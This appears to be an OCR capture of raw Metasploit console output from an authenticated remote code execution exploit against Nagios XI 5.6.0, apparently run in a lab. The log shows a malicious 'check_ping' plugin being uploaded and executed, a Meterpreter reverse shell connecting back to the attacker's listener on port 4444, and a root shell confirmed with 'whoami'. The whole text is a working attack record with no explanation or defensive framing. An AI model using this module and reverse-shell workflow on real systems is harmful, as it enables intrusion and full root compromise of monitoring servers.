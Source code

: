 [*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[*] 192.168.126.136:80 - The target appears to be vulnerable.
[msf](Jobs:0 Agents:0) exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) >> run

[*] Started reverse TCP handler on 192.168.49.126:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3020772 bytes) to 192.168.126.136
[*] Meterpreter session 1 opened (192.168.49.126:4444 -> 192.168.126.136:47674) at 2022-08-10 14:49:29 +0530
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

(Meterpreter 1)(/usr/local/nagiosxi/html/includes/components/profile) > shell
Process 12073 created.
Channel 1 created.
whoami
root
*****************


